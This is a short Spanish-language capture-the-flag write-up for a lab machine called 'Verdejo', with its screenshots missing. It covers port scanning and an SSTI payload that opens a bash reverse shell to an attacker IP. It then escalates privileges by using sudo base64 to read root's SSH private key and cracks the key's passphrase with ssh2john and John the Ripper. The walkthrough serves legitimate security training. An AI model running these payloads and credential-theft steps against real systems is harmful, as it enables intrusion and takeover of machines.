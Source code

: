 # Máquina Verdejo

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.1

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p22,80,8089 -vvv -Pn 172.17.0.1

![alt text](image-1.png)

### Entrando en la web por el puerto 8089

![alt text](image-2.png)

comprobando vulnerabilidad STTI

![alt text](image-4.png)

![alt text](image-5.png)

entonces escribimos el siguiente código para reverse shell

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.3/443 0>&1\'').read() }}

![alt text](image-6.png)

previamente nos ponemos en escucha en el puerto 443

### Escalar privilegios

![alt text](image-7.png)

Paso 1:
sudo base64 /root/.ssh/id_rsa | base64 --decode

![alt text](image-8.png)

![alt text](image-9.png)

Paso 2:
Si recordamos el puerto 22 estaba abierto, entonces tratamos de leer el id_rsa de root para poder loggearnos.

Paso 3:
Nos copiamos este id_rsa en nuestra máquina atacante, y con ssh2john sacamos el hash de esta clave.

ssh2john id_rsa > hash

![alt text](image-11.png)

Paso 4:
Por último con John The Ripper y el clásico rockyou crackeamos el passphrase de la clave.

john hash --wordlist=/usr/share/wordlists/rockyou.txt

![alt text](image-10.png)

Nos conectamos por ssh con el id_rsa

![alt text](image-12.png)

